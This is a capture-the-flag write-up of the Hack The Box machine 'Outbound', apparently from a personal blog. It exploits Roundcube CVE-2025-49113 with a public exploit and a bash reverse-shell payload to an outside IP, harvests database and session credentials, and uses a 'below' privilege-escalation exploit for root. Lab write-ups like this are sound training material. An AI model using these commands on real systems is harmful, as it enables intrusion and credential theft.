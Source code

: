 ```yaml
---
layout: default
title: "Outbound HTB Writeup"
date: 2025-07-20 13:54:00 +0300
categories: [HTBs]
tags: [cybersecurity, hacking, hackthebox, machines]
---
```


# Outbound HTB Writeup

## Importance of This Machine

Hello! Today I want to talk about a machine called **Outbound**. In my opinion, this machine was a great example of how important it is to keep up with cybersecurity news. In June 2025, the mail provider **cock.li** was hacked using a vulnerability identified as **CVE-2025-49113**.

## What is CVE-2025-49113?

**CVE-2025-49113** is an **authenticated remote code execution (RCE)** vulnerability in **Roundcube Webmail**.

## Writeup

### Initial Scanning

I started with an Nmap scan:

<code>
nmap -sV 10.10.11.77
</code>

Only two ports were open:

- SSH (22)
- HTTP (80)

### Exploring the Web Service

When I visited the HTTP port in the browser, I realized I needed to add `mail.outbound.htb` to my `/etc/hosts` file.

After that, accessing the domain revealed a Roundcube login page.

> (I actually remembered this from a previous leak 😅)

According to the information on the [Hack The Box machine page](https://app.hackthebox.com/machines/Outbound), we are given credentials for a user named **tyler**.

---

### Exploiting CVE-2025-49113

I used the public exploit for CVE-2025-49113:

<code>
wget https://raw.githubusercontent.com/fearsoff-org/CVE-2025-49113/refs/heads/main/CVE-2025-49113.php
</code>

Then ran:

<code>
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'sh -i &gt;&amp; /dev/tcp/10.10.14.87/2311 0&gt;&amp;1'"
</code>

> ✅ This gave me a shell as the `www` user!

---

### Enumeration

Inside the web directory, I found the Roundcube configuration file:

<code>
cat /var/www/html/roundcube/config/config.inc.php
</code>

It contained MySQL credentials:

<code>
Username: roundcube  
Password: RCDBPass2025
</code>

I logged into the database:

<code>
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube
</code>

Then ran:

<code>
USE roundcube;  
SELECT * FROM session;
</code>

This revealed base64-encoded serialized session data. After decoding it, I found:

<code>
username|s:5:"jacob";  
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
</code>

---

### Cracking the Password

To decrypt the password, I used the following Python script:

<code>
curl https://raw.githubusercontent.com/dogujen/dogujen.github.io/refs/heads/main/assets/des-decrypt-outbound.py && python des-decrypt-outbound.py
</code>

**Output:**

<code>
Decrypted password: ********
</code>

Now, I could log in via SSH using Jacob’s credentials.

---

### Privilege Escalation

Once inside, I ran:

<code>
sudo -l
</code>

I had permission to run a binary called `below`. After some quick research, I found a [privilege escalation exploit](https://github.com/rvizx/CVE-2025-27591) for it.

Running the exploit script gave me **root access**.

---

Thanks for reading! 😄  
Happy hacking!
